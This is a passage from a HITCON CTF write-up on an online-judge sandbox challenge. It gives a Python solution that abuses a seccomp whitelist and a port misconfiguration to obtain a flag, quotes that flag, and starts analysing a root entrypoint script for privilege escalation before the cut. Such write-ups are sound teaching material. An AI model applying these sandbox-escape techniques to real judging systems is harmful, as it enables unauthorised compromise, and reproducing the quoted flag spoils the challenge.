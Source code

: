 All other syscalls, including `socket`, `bind`, etc. are allowed. So, we can solve level 1 by simply emulating the function of `getflag` in Python:

```python
import sys
print_ = print
def print(*args, **kwargs):
    print_(*args, **kwargs)
    sys.stdout.flush()

print("Welcome to hack")
import socket
sock = socket.socket(2, 2, 0)
print(sock)

print(sock.bind(("", 321)))
print(sock.sendto(bytes(256), ("172.12.34.56", 1337)))
print(sock.recvfrom(256))
```

This gives us our first flag, `hitcon{level1__i_should_not_have_used_whitelist_seccomp:(}`.

### Level 2

Description:

> I made an oopsie in level 1 which allows an unintended solution. The files in this challenge and Level 1 are the same, except some configurations are different.
> 
> Link: http://chal-hitoj-2.chal.hitconctf.com
> 
> For this level, execute the command `/getflag give me flag` as root to print the flag.

In level 1, we successfully bound a socket to port 321, which is normally a privileged port only accessible to root. Thus, our uid=1337 process should not be able to bind this socket (and if we don't bind the socket, the remote server never sends a reply). However, the misconfiguration in level 1 is setting `/proc/sys/net/ipv4/ip_unprivileged_port_start` to 0, allowing any user to bind any port.

Level 2 fixes this misconfiguration, so we do really have to execute `/getflag` as root. Our only real option is to compromise the judge or the entrypoint script, both of which are running as root.

The entrypoint script looks like this:

```sh
#!/bin/bash


if [[ "$$" != 1 ]]; then
    # pls don't do this
    exit
fi

workdir="/run/workdir"
judgedir="/run/judge"
testdir="$judgedir/testcases"

result_path="$judgedir/result.log"
src_path="$workdir/submission.py"
exe_path="/usr/bin/python3"

mkdir "$workdir"
chmod 777 "$workdir"

cd "$workdir"

judge_test () {
    test_name="$1"
```